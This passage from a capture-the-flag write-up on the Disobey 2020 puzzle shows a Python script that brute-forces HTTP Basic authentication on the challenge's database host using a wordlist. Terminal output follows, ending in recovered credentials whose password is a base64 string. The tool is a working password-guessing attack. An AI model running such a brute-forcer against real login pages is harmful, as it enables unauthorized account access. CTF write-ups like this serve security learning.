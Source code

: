 I wrote a little python script for the bruteforce. It's not beautiful but it's working. But actually it's AI as it has multiple if statements... :D


```
 whois@cypher → ~/Disobey2020 → cat bruteforcer.py 
import requests
import sys
import time

filetoopen=sys.argv[1]

with open(filetoopen,"r") as usernames:
  for l1 in usernames:
    with open(filetoopen, "r") as passwords:
      for p1 in passwords:
        username = l1.replace('\n', '')
        password = p1.replace('\n', '')
        while True:
          r = requests.get("https://db.0n.fi/", auth=(username, password))
          if(r.status_code==429):
            time.sleep(1)
            continue
          if(r.status_code!=401):
            print("[+] Working creds found: %s:%s" % (username, password))
            sys.exit(1)
          if(r.status_code==401):
            print("[-] Incorrect: %s:%s" % (username, password))
            break

 whois@cypher → ~/Disobey2020 → python3 bruteforcer.py words.txt          
[-] Incorrect: mehram:mehram
[-] Incorrect: mehram:hammer
[-] Incorrect: mehram:MEHRAM
[-] Incorrect: mehram:HAMMER
[-] Incorrect: mehram:Can't Touch This
[-] Incorrect: mehram:Q2FuJ3QgVG91Y2ggVGhpcw==
[-] Incorrect: hammer:mehram
[-] Incorrect: hammer:hammer
[-] Incorrect: hammer:MEHRAM
[-] Incorrect: hammer:HAMMER
[-] Incorrect: hammer:Can't Touch This
[+] Working creds found: hammer:Q2FuJ3QgVG91Y2ggVGhpcw==
```

And against all odds, we got working username:password combination. The base64 string said "Can't Touch This" which now totally makes sense as the encoded string was the password.

# \_dbfun

After we authenticate with Basic AUTH, we get to the some kind of db connect site.

![image](/assets/images/db.png)
